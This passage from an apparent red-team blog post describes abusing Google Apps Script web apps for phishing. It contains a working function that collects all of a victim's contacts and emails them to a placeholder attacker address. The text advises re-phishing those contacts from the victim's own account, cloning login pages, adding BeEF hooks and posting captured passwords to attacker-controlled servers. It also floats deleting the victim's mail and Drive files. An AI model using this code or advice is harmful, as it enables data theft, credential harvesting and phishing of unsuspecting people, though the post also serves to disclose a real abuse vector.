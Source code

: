   

function contactsRePhish() {

  var contacts = ContactsApp.getContacts();

  // Only pulling name and primary email, many other fields to extract from

  for (var i=0; i<contacts.length; i++) {   

    var name = contacts\[i\].getFullName();    

    var email = contacts\[i\].getPrimaryEmail();

    Logger.log("Name: "+name+" Email: "+email);

  }

  

  var recipient = "ATTACKEREMAILADDRESS";

  var subject = 'Full List of Contacts';

  var body = Logger.getLog();

  MailApp.sendEmail(recipient, subject, body);

  Logger.clear();  

  

}

-   Keep in mind - **with the example above we could have the victim user send an email from their account, to each of their contacts, asking them to click a link, or fill in information on a phishing website we have constructed**. This is a great way to internally re-phish other users in an extremely convincing manner.

I'm sure people much smarter than myself could come up with other use cases. A few I haven't had time to explore; permanently delete all mail, permanently delete all Drive files, upload malicious files to drive, and create triggers to setup a recurring task.

  

Lastly, at the end of our doGet(e) application handling function, we return an object "HtmlService.createHtmlOutput('Index')". Index refers to an HTML file that we are passing to this object. The HTML file can be created in the script editor UI by going to File -> New -> HTML file. You can place whatever content in this HTML file to support your Phishing scenario (I'd suggest HTTrack to clone a web page from your target, perhaps a Citrix/RAS login page). You can have it look a BeEF JS hook, post form fields (such as passwords) out to listening web servers under your control, etc. The best part of the 'deploy as web app' option is that we can actually deploy a functional web application in addition to all of the core data search and exfiltration functionality.

  

This isn't the first I've heard of Google App Script 'abuse'. There are a number of malware researchers who have published articles about [Carbanak abusing Google App Scripts to host C2 infrastructure](https://blogs.forcepoint.com/security-labs/carbanak-group-uses-google-malware-command-and-control). But I have yet to see or read about Google App scripting abuse in a social engineering context.  
  
**Edit:** A friend sent me a link to a post from Andrew Cantino back in 2014, appears to be the first mention of this issue [http://blog.andrewcantino.com/blog/2014/09/08/example-of-poor-security-communication-in-google-auth-flow/](http://blog.andrewcantino.com/blog/2014/09/08/example-of-poor-security-communication-in-google-auth-flow/). Kudos to Andrew for identifying this issue and raising it with Google. I think it needs more attention/discussion.
